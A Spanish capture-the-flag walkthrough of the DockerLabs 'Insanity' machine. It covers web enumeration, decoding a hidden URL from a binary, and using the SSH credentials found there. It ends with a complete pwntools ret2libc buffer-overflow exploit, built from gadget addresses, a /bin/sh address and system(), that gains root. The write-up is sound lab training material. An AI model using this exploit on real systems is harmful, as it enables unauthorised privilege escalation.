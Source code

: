 nmap: 22,80

![image](https://github.com/user-attachments/assets/9a5132f3-0a20-4689-8f07-2f6823477b83)

si entramos a la pagina es un apache como nombra en el nmap, entramos al código fuente y nos mostrara esto

![image](https://github.com/user-attachments/assets/5a899861-971f-45a2-beae-b6e4991f89c1)

lanzamos un gobuster 

     gobuster dir -u http://insanity.dl/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x html,php,txt -t 100 -k

y obtenemos 

![image](https://github.com/user-attachments/assets/5ba202fc-7a78-4e33-81a2-bf844081ce3d)

entramamos y obtenemos

![image](https://github.com/user-attachments/assets/c86393b4-2728-4a69-8cdb-396aa439403e)

los descargamos y ejecutamos

![image](https://github.com/user-attachments/assets/4de4dd06-7a32-4ff1-a316-ea41755b6da0)

con secret obtenemos que es una clave incorrecta y con libcredenciales.so da segmentation fault, probando no obtenemos nada. así que vamos a utilizar ghidra para ver el contenido del código 

Lo importante que entendí del código
> Primero que hay un wget así que descarga un archivo
> g(): Define un arreglo de valores o sea local_4d8, local_4d4 y así. 
> usa b() para convertir estos valores en una cadena
> También  llama a "a()" para cada valor en un arreglo de enteros
>o sea vería así: b(long param_1, int param_2, long param_3)

así que basado en esto podemos decodificar con un código python

![image](https://github.com/user-attachments/assets/4cdd940e-c5a3-4c7c-9d40-189b4e6bfdf4)

con este código lo vamos a lanzar con python3

     def transform_value(value):
    special_cases = {
        0x1B: 0x3A,
        0x1C: 0x2F,
        0x1D: 0x2E,
        0x1E: 0x5F
    }
    
    if value in special_cases:
        return special_cases[value]
    elif 1 <= value <= 0x1A:
        return value + 0x60
    else:
        return 0x3F
        
        def convert_values_to_string(values):
    return "".join(chr(transform_value(value)) for value in values)
    
    values = [
    8, 20, 20, 16, 27, 28, 28, 9, 14, 19, 1, 14, 9, 20, 25, 29, 4, 12, 28, 21,
    12, 20, 18, 1, 30, 19, 5, 3, 18, 5, 20, 30, 6, 15, 12, 4, 5, 18, 11, 13, 1 ]
    result = convert_values_to_string(values)
    print("Resultado:", result)


y obtenemos esto

![image](https://github.com/user-attachments/assets/6e3e218e-779d-4a2d-b7ef-cf7153ea8469)

> http://insanity.dl/ultra_secret_folderkma

![image](https://github.com/user-attachments/assets/630ea875-f856-43a2-82ae-5ff2f9c65a4f)

tenemos las credenciales de SSH

![image](https://github.com/user-attachments/assets/e1930742-634c-4d90-b124-3e9f2a7d608c)

tenemos la conexión ahora vamos buscando y encontramos esto

![image](https://github.com/user-attachments/assets/05779abd-a6bd-4ee1-a6d4-44ae52efdfdc)

vamos a lanzar ahí mismo 

     gdb -q ./vuln

ahora colocamos los que nos dio el código

     /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400 

![image](https://github.com/user-attachments/assets/e657490c-a3ce-4898-acaa-b445609772b4)

ahora en el gdb lanzamos una r y ahora colocamos el resultado

![image](https://github.com/user-attachments/assets/64bfae17-2c62-422d-9ba7-a3573f1160dd)

obtenemos este resultado

    0x0000000000401189 in vuln ()

ahora lanzamos en nuestra terminal

    python2 -c 'print("A"*136 + "BBBBBB")'

en el gdb lanzamos run y colocamos el nuevo resultado y obtenemos

    0x0000424242424242 in ?? ()

![image](https://github.com/user-attachments/assets/df1066f8-b470-47ab-8cf2-e830bf81c311)

entonces cambio porque en el primer "ataque" aparece la protección, si lanzamos un "info frame" mostrara si se ejecuta correctamente pero como se vio muestra la protección, ahora que lanzamos tomando en cuenta el "136" le sumamos las B o sea "136 + 6 B"
y podemos obtener el ultimo resultado. ahora quedaría encontrar la direccion de memoria que seria el "sh"

![image](https://github.com/user-attachments/assets/9be2e2fc-3bcc-412d-9214-7928529622d3)

veremos si esta ahí y efectivamente esta 

![[memoria2.png]]

ahora seria buscar la dirección de memoria pero de system, con el comando 

    p system

y nos dará

![[system.png]]

encontré este comando que es para ver si se encuentra ahí
 
     ROPgadget --binary ./vuln

de muchas lineas que nos da, nos interesa una

     0x0000000000401016 : ret

así que obtenemos la dirección de ret, ahora buscamos la de pop rdi

     ROPgadget --binary ./vuln | grep "pop rdi"

y me dio

     0x0000000000401165 : mov dl, byte ptr [rbp + 0x48] ; mov ebp, esp ; pop rdi ; nop ; pop rbp ; ret
     0x0000000000401168 : mov ebp, esp ; pop rdi ; nop ; pop rbp ; ret
     0x0000000000401167 : mov rbp, rsp ; pop rdi ; nop ; pop rbp ; ret
     0x000000000040116a : pop rdi ; nop ; pop rbp ; ret
     0x0000000000401166 : push rbp ; mov rbp, rsp ; pop rdi ; nop ; pop rbp ; ret

la que buscábamos es la 

     0x000000000040116a 

ahora con todos los valores creamos un código python que contenga los valores

![[exploit.png]]


este es el código 

     from pwn import *
     binary_path = '/opt/vuln'
     binary = ELF(binary_path)
     p = process(binary_path)
     
     gadgets = {
    "pop_rdi_ret": 0x40116a,
    "ret": 0x401016         
    }
    addresses = {
    "bin_sh": 0x7ffff7f73031, 
    "system": 0x7ffff7e29490  
    }
    
    offset = 136                  
    payload = b"A" * offset        
    payload += p64(gadgets["pop_rdi_ret"])  
    payload += p64(addresses["bin_sh"])     
    payload += p64(gadgets["ret"])         
    payload += p64(addresses["system"])    
    
    def exploit():
    p.sendline(payload)
    p.interactive()
    
    if __name__ == "__main__":
    exploit()


ahora los pasamos a la maquina victima y lo ejecutamos

![[dockerlabs/dificil/Insanity/root.png]]

y somos root! 
